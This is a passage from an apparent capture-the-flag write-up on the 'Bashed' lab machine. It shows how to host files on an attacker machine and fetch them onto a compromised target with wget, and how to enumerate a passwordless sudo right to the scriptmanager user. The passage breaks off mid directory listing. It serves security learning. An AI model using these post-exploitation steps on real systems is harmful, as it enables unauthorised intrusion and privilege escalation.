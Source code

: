 Nothing of interest that can be seen or accessed. At this point, I kept enumerating. If you prefer using a tool to do some of the enumeration and checking of potential misconfigurations on the system, you can download files to the target machine by setting up a HTTP server on your local machine. Then fetch the files using wget.

Example:

On the attacker machine:
```
seanmharrington@kali:~$ ls
seanmharrington@kali:~$ mkdir httpserver
seanmharrington@kali:~$ cd httpserver
seanmharrington@kali:~/httpserver$ touch test.txt
seanmharrington@kali:~/httpserver$ ls
test.txt
seanmharrington@kali:~/httpserver$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.15.251 - - [16/Mar/2018 22:52:57] "GET / HTTP/1.1" 200 -
10.10.15.251 - - [16/Mar/2018 22:53:09] "GET /test.txt HTTP/1.1" 200 -
```

On target machine you want to download file to from shell:

```
www-data@bashed:/tmp# wget 10.10.15.251:8000/test.txt
--2018-03-16 19:54:55-- http://10.10.15.251:8000/test.txt
Connecting to 10.10.15.251:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 0 [text/plain]
Saving to: 'test.txt'

 0K 0.00 =0s

2018-03-16 19:54:55 (0.00 B/s) - 'test.txt' saved [0/0]
```

From my enumeration, I found a couple of interesting things:
```
www-data@bashed:/var/www/html# sudo -l -U www-data
Matching Defaults entries for www-data on bashed:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
 (scriptmanager : scriptmanager) NOPASSWD: ALL
```

This means that if www-data sudos as user scriptmanager, there's no password. Also, there's an interesting directory that scriptmanager owns on the root level of the machine:

```
www-data@bashed:/# ls -al
total 88
drwxr-xr-x 23 root root 4096 Dec 4 13:02 .
drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
drwxr-xr-x 2 root root 4096 Dec 4 11:22 bin
drwxr-xr-x 3 root root 4096 Dec 4 11:17 boot
drwxr-xr-x 19 root root 4240 Mar 16 19:19 dev
drwxr-xr-x 89 root root 4096 Dec 4 17:09 etc
drwxr-xr-x 4 root root 4096 Dec 4 13:53 home
lrwxrwxrwx 1 root root 32 Dec 4 11:14 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x 19 root root 4096 Dec 4 11:16 lib
drwxr-xr-x 2 root root 4096 Dec 4 11:13 lib64
drwx------ 2 root root 16384 Dec 4 11:13 lost+found
drwxr-xr-x 4 root root 4096 Dec 4 11:13 media
drwxr-xr-x 2 root root 4096 Feb 15 2017 mnt
drwxr-xr-x 2 root root 4096 Dec 4 11:18 opt
dr-xr-xr-x 115 root root 0 Mar 16 19:19 proc
```